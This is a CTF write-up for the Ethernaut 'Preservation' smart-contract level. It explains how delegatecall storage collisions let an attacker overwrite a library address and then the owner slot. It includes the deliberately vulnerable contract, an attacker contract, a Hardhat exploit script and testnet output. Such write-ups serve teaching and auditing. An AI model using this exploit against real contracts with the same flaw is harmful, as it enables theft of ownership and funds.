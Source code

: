 ```yaml
---
title: Ethernaut Preservation
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Preservation challenge writeup
---
```


## Preservation

### Challenge

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

### Background

In order to pass this challenge we need to understand that when we `delegatecall` a to some smart contract, the code is executing in the context of the current contract. So when the first slot is being overwritten, it is the first slot in the caller contract and not the callee contract.

### Attack

The `setFirstTime` and `setSecondTime` functions are not used safly here. In fact they are implemented completly wrong and will not function as intended. Normaly when any of the two is called, they will try to update the `storedTime` in there own contract which happens to be in the first slot in storage. However, since they are being `delegatecall`ed, they will actually run in the context of the caller, and hence overwrite the parents first slot in storage. This will result in updating the `timeZone1Library` address. Using this techinque we can make the address point to an attacker controlled contract.

Create a contract that implements a function with the same signature as the `setTime` function, more specifically the signature should be `setTime(uint256)`. This function should have the functionality to replace the third slot with whatever owner we want to set. Then we need to use the original `setTime` function to replace the first slot, which is in fact the address of the contract that is being called.

* Create a contract that:
  * will have a function with the signature `setTime(uint256)`
  * the function `setTime(uint256)` will replace replace the third slot with whatever the argument passed is 
* Call the `setFirstTime` or `setSecondTime` with the address of the attacker controlled contract
* Call the `setFirstTime` with the address of the new owner to be set

#### PreservationSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract PreservationSolve {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    constructor() public {}

    function setTime(uint256 _owner) public {
        owner = address(_owner);
    }
}
```

#### preservation-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    preservationAddress = "0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb";
    contract = await ethers.getContractAt("Preservation", preservationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    PreservationSolve = await ethers.getContractFactory("PreservationSolve");
    preservationSolve = await PreservationSolve.deploy();
    await preservationSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call setFirstTime and overwrite the first slot in the caller contract
    tx = await contract.connect(account).setFirstTime(preservationSolve.address)
    receipt = await tx.wait()

    // call setFirstTime and overwrite the owner slot in the caller contract
    tx = await contract.connect(account).setFirstTime(account.address)
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/preservation-solve.js --network rinkeby
Level address   : 0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb
Contract Owner  : 0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, `msg.value` will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple `delegatecall`s to a function that looks safe on its own could lead to unwanted transfers of ETH, as `delegatecall`s keep the original `msg.value` sent to the contract.

Move on to the next level when you're ready!
